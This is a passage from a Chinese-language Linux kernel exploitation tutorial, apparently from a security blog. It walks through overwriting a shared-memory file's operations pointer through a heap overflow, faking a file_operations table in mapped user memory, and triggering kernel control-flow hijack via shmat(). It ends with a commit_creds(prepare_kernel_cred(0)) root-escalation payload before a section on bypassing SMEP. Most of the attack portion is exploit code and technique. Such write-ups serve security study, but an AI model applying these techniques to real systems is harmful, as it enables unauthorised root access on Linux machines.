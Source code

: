| addr | type |
| :-- | --: |
| 0xc04e43c0 | dev[0]->data |
| 0xc04e4480 | shmid_kernel |
| 0xc04e4540 | shmid_file |
| 0xc04e4600 | dev[1](http://drops.javaweb.org/uploads/images/d919adc9537eaa02c428aba40a3ee018d7aa29a4.jpg)->data |

![Alt text](http://drops.javaweb.org/uploads/images/bd58165b7ab2d3c837e4af682973a249df26feed.jpg)

最开始的计划，是覆盖shmid_kernel结构的shmid_file指针（shmid_kernel+0x6c），但是现在发现可以直接覆盖shmid_file的fop（shmid_file+0x14），这是指向其file_operations的指针。我们只要把这个指针覆盖，就能伪造file_operations，于是伪造一个file_operations，在偏移0x40处，指定0x41414141。其余的内容，由于我们可以通过read读取堆内容，所以write的时候，直接复制过去，改别的。 但是如果没有read，我们也可以自己伪造一个shmid_kernel，当然肯定会麻烦一些。因为有一些检查是要绕过的。

```
read(fd[2],readbuf,oversize); //由于llseek的限制,fd [0,1,2]做一个区分
memcpy(buf,readbuf,oversize);
map = mmap((void *)0x5a000000,0x1000,PROT_WRITE|PROT_READ | PROT_EXEC, MAP_SHARED|MAP_ANONYMOUS|MAP_FIXED, -1, 0);
memcpy(map,41,0x100);
struct file **shm_file;
shm_file = (struct file **)(buf+0x194);
*shm_file = (void *)0x5a000000;  

//fack_fop == 0x5a000000;
//fack_fop_mmap == 0x41414141;

write(fd[0],buf,oversize);
ret = shmat(shmid,NULL,0);

```

那么，调用shmat的时候，最终会调用:  
shmid_kernel->shm_file->fop->mmap(...)。这个时候，我们就能得到内核的控制流。

![Alt text](http://drops.javaweb.org/uploads/images/c973ec176c153604d8b7e82625459919fffa45f1.jpg)

0x04 SMEP
=========

* * *

得到控制流后，最开始我是这么想的：

**将控制流转移到用户态的代码里来，进行提权**，代码可以是这样子：

```
int __attribute__((regparm(3))) 
kernel_code(struct file *file, void *vma)
{
    commit_creds(prepare_kernel_cred(0));
    return -1;
}

```
